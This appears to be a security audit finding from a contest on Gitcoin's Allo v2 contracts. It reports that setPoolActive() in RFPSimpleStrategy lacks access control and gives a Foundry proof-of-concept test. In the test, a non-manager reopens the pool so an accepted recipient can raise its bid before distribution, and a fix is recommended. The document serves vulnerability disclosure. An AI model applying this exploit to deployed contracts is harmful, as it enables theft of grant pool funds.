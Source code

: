Recumbent Citron Mustang

high

# No access control on `setPoolActive()` can result last minute change of proposal bid
## Summary

The function [`setPoolActive()`](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/6430c8004017e96ae2f5aac365bdefd0b6eeea72/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L219) in the RFPSimpleStrategy contract lacks access control allowing anyone to set `poolActive` to `true` or `false`.

## Vulnerability Detail

Each strategy inherit the [`baseStrategy`](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/6430c8004017e96ae2f5aac365bdefd0b6eeea72/allo-v2/contracts/strategies/BaseStrategy.sol#L30) contract which has a private variable `poolActive`.

In the RFPSimpleStrategy, this variable determine if registering is still open or if we can pick a `recipient` as well as distribute or withdraw funds. By not putting an access control on the `setPoolActive()` function, it allows any user to temporarly disable some functions of the contract as well as being able to register even if the `reicipient`has been set.

Because we can still register, it means an accepted recipient could increase its proposal bid right before the pool manager distribute rewards for a milestone, thus earning more than he was supposed to be. Max being the `poolAmount`.

## Impact

High. 
- Can temporarily disable some functions of the contract and make calls revert.
- The accepted recipient could frontrun the `distribute()` call by the pool manager and update its `proposalBid` to receive more tokens.

## Code Snippet

Here is a POC that can be copy pasted in the RFPSimpleStrategy test file.

```solidity
function test_update_recipient_proposalBid() public {
        //Fund pool with 2 ether
        vm.deal(pool_admin(), 2 ether);
        vm.prank(pool_admin());
        allo().fundPool{value: 2 ether}(poolId, 2 ether);

        //register with 1e17 wei and allocate to a recipient
        address sender = recipient();
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});

        bytes memory data = abi.encode(recipientAddress(), false, 1e17, metadata);
        vm.prank(address(allo()));
        address recipientId = strategy.registerRecipient(data, sender);
        __setMilestones();
        vm.prank(address(allo()));
        strategy.allocate(abi.encode(recipientId), address(pool_admin()));

        //pool is now active = false and we got accepted as recipient
        IStrategy.Status recipientStatus = strategy.getRecipientStatus(recipientId);
        assertEq(uint8(recipientStatus), uint8(IStrategy.Status.Accepted));
        assertEq(strategy.isPoolActive(), false);

        //anyone can set pool active
        vm.prank(makeAddr("not_pool_manager"));
        strategy.setPoolActive(true);

        //update the recipient with a higher proposalBid
        metadata = Metadata({protocol: 1, pointer: "metadata"});

        //increase from 1e17 to 1e18 wei our proposal bid
        data = abi.encode(recipientAddress(), false, 1e18, metadata);
        vm.prank(address(allo()));
        recipientId = strategy.registerRecipient(data, sender);

        //set pool back to false so distribute don't revert
        vm.prank(makeAddr("not_pool_manager"));
        strategy.setPoolActive(false);

        //distribute
        vm.prank(address(allo()));
        strategy.distribute(new address[](0), "", pool_admin());
    }
```

## Tool used

Manual Review

## Recommendation

Add `onlyPoolManager(msg.sender)` modifier to the function.
